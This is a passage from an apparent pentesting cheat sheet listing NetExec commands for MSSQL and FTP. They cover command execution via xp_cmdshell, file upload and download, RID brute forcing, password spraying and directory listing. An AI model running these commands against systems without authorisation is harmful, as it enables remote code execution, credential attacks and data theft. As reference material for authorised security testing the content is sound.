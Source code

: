 {% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
# Remote queries
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'

# System RCE via xp_cmdshell
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```
{% endcode %}
{% endtab %}

{% tab title="Transfers" %}
{% code overflow="wrap" %}
```bash
# Upload
nxc mssql <target> -u <user> -p <pass> --put-file /tmp/users C:\\Windows\\Temp\\whoami.txt

# Download
nxc mssql <target> -u <user> -p <pass> --get-file C:\\Windows\\Temp\\whoami.txt /tmp/file
```
{% endcode %}
{% endtab %}

{% tab title="RID BFA" %}
```bash
nxc mssql <target> -u <users> -p <pass> --rid-brute
```
{% endtab %}
{% endtabs %}

## FTP

{% tabs %}
{% tab title="Pass Spray" %}
{% code overflow="wrap" %}
```bash
nxc ftp <target> -u userfile -p passwordfile --no-bruteforce --continue-on-success
```
{% endcode %}
{% endtab %}

{% tab title="File Listing" %}
```bash
# List root directory
nxc ftp <target> -u <user> -p <pass> --ls

# List a specific directory
nxc ftp <target> -u <user> -p <pass> --ls <dir>
```
{% endtab %}

{% tab title="Transfers" %}
```bash
# Download
nxc ftp <target> -u <user> -p <pass> --get <file>

# Upload
nxc ftp <target> -u <user> -p <pass> --put <local-file> <remote-file>
```
{% endtab %}
{% endtabs %}
